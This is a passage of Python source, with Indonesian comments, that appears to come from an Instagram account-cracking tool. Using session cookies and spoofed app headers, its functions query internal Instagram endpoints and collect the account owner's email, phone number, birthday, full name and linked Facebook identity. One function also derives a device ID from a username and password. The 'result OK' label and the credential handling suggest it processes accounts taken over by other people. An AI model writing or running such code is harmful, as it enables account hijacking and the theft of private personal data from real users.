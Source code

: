    #-> Info Akun Terkait
   def Fafo(self, cokie):
       try:
           self.c = re.findall('csrftoken=(.*?);',str(cokie))
           self.x = {"Host": "www.instagram.com","content-length": "0","x-requested-with": "XMLHttpRequest","x-csrftoken": "tJdFh5wJTuFDQZvpadl2kTm0LGRSkH8w" if len(self.c) == 0 else self.c[0],"x-ig-app-id": "936619743392459","x-instagram-ajax": "1011212827","user-agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36","content-type": "application/x-www-form-urlencoded","accept": "*/*","x-asbd-id": "129477","cookie":cokie}
           self.r = requests.post('https://www.instagram.com/api/v1/web/fxcal/ig_sso_users/', headers = self.x).json()
           if 'fbAccount' in str(self.r):
              self.nama = self.r['fbAccount']['display_name']
              self.Reqz = requests.get('https://accountscenter.instagram.com/profiles/', cookies = {'cookie':cokie}).text
              self.User = re.search('{"__typename":"XFBFXFBAccountInfo","id":"(.*?)"}', str(self.Reqz)).group(1)
           else:
              self.nama = None
              self.User = None
       except:
           self.nama = 'Requests Error!'
           self.User = 'Requests Error!'
       self.aku = '%s%s|%s'%(H,self.User, self.nama)
       return(self.aku)

   #-> Custom Android ID
   def Android_ID(self, users, passwd):
       self.xyz = hashlib.md5()
       self.xyz.update(users.encode('utf-8') + passwd.encode('utf-8'))
       self.hex = self.xyz.hexdigest()
       self.xyz.update(self.hex.encode('utf-8') + '12345'.encode('utf-8'))
       return self.xyz

   #-> Info result OK
   def friends_user(self, cookies):
       try:
            InfoHeaders = {'x-ig-app-locale': 'in_ID','x-ig-device-locale': 'in_ID','x-ig-mapped-locale': 'id_ID','x-bloks-version-id': '8ca96ca267e30c02cf90888d91eeff09627f0e3fd2bd9df472278c9a6c022cbb','x-bloks-is-layout-rtl': 'false','x-ig-capabilities': '3brTv10=','x-ig-app-id': '567067343352427','priority': 'u=3','user-agent': 'Instagram 275.0.0.27.98 Android (25/7.1.2; 240dpi; 720x1280; Google/google; google Pixel 2; x86; android_x86; in_ID; 458229257)','accept-language': 'id-ID, en-US','x-fb-http-engine': 'Liger','x-fb-client-ip': 'True','x-fb-server-cluster': 'True'}
            edit = {'edit': 'true'}
            info = requests.get('https://i.instagram.com/api/v1/accounts/current_user/', params=edit, headers=InfoHeaders, cookies = {'cookie':cookies}).json()['user']
            info_email = info['email']
            info_full_nama = info['full_name']
            info_username = info['username']
            info_nomor_hp = info['phone_number']
            info_akun_id = info['pk_id']
            info_birthday = info['birthday']
            info_kedua = requests.get(f'https://i.instagram.com/api/v1/users/{info_akun_id}/info/', headers=InfoHeaders, cookies = {'cookie':cookies}).json()['user']
            info_followers = info_kedua['follower_count']
            info_following = info_kedua['following_count']
            return info_email,info_full_nama,info_username,info_nomor_hp,info_birthday,info_followers,info_following
       except:return None
